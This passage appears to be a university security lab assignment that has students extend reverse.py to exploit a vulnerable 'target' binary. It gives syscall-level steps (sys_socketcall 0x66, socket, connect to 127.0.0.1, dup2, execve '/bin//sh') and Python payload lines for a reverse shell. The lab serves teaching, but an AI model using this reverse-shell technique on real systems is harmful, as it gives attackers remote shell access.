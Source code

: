 * socket(2)
* ccnnect(2)

There are several ways to call these functions. Since they appear in target, it’s possible to return to them with the arguments on the stack. However, the first argument to connect(2) is the return value from the socket(2) which makes making returning to the libc implementations difficult. Instead, you should make the corresponding system calls directly; just as you did with dup2(2).

See the associated manual pages for example usage and see the hints below for suggestions on making these system calls. And see the example below for the arguments to the system calls. The socket-related system calls all use the same system call number sys_socketcall. As described on kernelgrok, eax is set to 0x66. ebx is set to the actual socket call you want to make. Lastly, ecx points to an array of the arguments to pass.

To perform the socket(2) system call, you would need to set eax to 0x66, ebx to 0x1, and ecx as a pointer to a memory location (Can use @.data). The memory location pointed to by the ecx pointer should have the first 4 bytes as AF_NET (0x2), the next 4 bytes as SOCK_STREAM (0x1) and the last 4 bytes as 0x0 for the protocol. The return value of this system call will be stored in the eax register and will be used as one of the arguments to the connect(2) system call.

To perform the connect(2) system call, you would need to set eax to 0x66, ebx to 0x3, and ecx as a pointer to a memory location (Can use @.data).  The memory location pointed to by the ecx pointer should have the first 4 bytes as the socket file descriptor, which was returned earlier by the socket(2) system call, the next 4 bytes as yet another pointer to a memory location on the STACK (let's call this location L), and the remaining 4 bytes should be the size of the sockaddr struct, which is 0x16. The location L should have 8 bytes of data. You can use the following two lines directly in your payload, wherever you want to write the 8 bytes for memory location L. Here `<connect_port>` is the second argument that you provide to the reverse.py file.
 
    p += (socket.htons(2).to_bytes(2, 'big') + <connect_port>.to_bytes(2, 'big')) # AF_INET and PORT
    p += pack('<I', 0x0100007f) # Load the Localhost IP address

In essence you want to make the following system calls  :
    
    socket(PF_INET(0x2), SOCK_STREAM(0x1), IPPROTO_TCP(0x0)) = 5;
    connect(5, {sa_family=AF_INET(0x2), sin_port=htons(<connect_port>), sin_addr=inet_addr("127.0.0.1")}, 16) = 0;
    dup2(5, 0);
    dup2(5, 1);
    dup2(5, 2);
    execve("/bin//sh", [], [/* 6 vars */])
    
You can reuse code from previous tasks for the `dup2` and `execve` system calls.

The connection should be to 127.0.0.1 and the port should be specified as an argument to reverse.py (see example below).

To complete this task, modify reverse.py to:

* Open a socket to listen on 127.0.0.1 with the port specified as a command line parameter to reverse.py (see example below).
* Exploit target and have it make a new connection to 127.0.0.1 with the same port used in step 1. Once connected, target should exec a shell with stdin/stdout/stderr connected to the new socket.
* Read from stdin and write to the newly opened socket and read from the socket and write to stdout. Again, the console function may be helpful.
